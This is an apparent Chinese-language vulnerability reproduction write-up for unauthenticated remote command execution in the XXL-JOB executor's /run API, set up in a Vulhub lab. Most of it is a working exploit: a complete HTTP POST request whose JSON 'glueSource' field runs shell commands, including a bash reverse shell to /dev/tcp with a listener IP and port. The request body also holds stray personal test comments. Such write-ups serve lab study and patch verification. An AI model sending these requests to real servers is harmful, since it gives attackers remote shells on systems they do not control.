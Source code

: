 # XXL-JOB executor 未授权访问漏洞

## 漏洞描述

XXL-JOB是一个分布式任务调度平台，其核心设计目标是开发迅速、学习简单、轻量级、易扩展。现已开放源代码并接入多家公司线上产品线，开箱即用。XXL-JOB分为admin和executor两端，前者为后台管理页面，后者是任务执行的客户端。executor默认没有配置认证，未授权的攻击者可以通过RESTful API执行任意命令。

参考链接：

- https://mp.weixin.qq.com/s/jzXIVrEl0vbjZxI4xlUm-g
- https://landgrey.me/blog/18/
- https://github.com/OneSourceCat/XxlJob-Hessian-RCE

## 环境搭建

Vulhub执行如下命令启动2.2.0版本的XXL-JOB：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可查看到管理端（admin），访问`http://your-ip:9999`可以查看到客户端（executor）。

## 漏洞复现

向客户端（executor）发送如下数据包，即可执行命令：

```
POST /run HTTP/1.1
Host: your-ip:9999
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 365

第一次测试 meng
{
"jobId":1, 
"executorHandler":"demoJobHandler",
"executorParams":"demoJobHandler", 
"executorBlockStrategy":"COVER_EARLY", 
"executorTimeout":0, 
"logId":1, 
"logDateTime":1586629103729, 
"glueType":"BEAN",         //测试一下
"glueSource":"touch /tmp/sss",    //dnslog 试一下
"glueUpdatetime":1586629103727, 
"broadcastIndex":0,
"broadcastTotal":0 
,"gtoyitijdum":"="}

第二次测试   meng
{
  "jobId": 1,
  "executorHandler": "demoJobHandler",
  "executorParams": "demoJobHandler",
  "executorBlockStrategy": "COVER_EARLY",
  "executorTimeout": 0,
  "logId": 1,
  "logDateTime": 1586629003729,
  "glueType": "GLUE_SHELL",     // shell powershell等，自己搭建一个后台看一下种类挨个试试
  "glueSource": "bash -i >& /dev/tcp/ip/port 0>&1 ",
  "glueUpdatetime": 1586699003758,
  "broadcastIndex": 0,
  "broadcastTotal": 0
}
```

![image-20220302232736378](./images/202203022327467.png)

`touch /tmp/awesome_poc`已成功执行：

![image-20220302232818916](./images/202203022328972.png)

另外，低于2.2.0版本的XXL-JOB没有RESTful API，我们可以通过[Hessian反序列化](https://github.com/OneSourceCat/XxlJob-Hessian-RCE)来执行命令。

### 反弹shell

发送数据包，执行反弹shell命令：

```
"glueSource": "bash -i >& /dev/tcp/192.168.174.128/2333 0>&1 "
```

![image-20220302232933519](./images/202203022329606.png)

监听2333端口，接收反弹shell：

![image-20220302232912024](./images/202203022329112.png)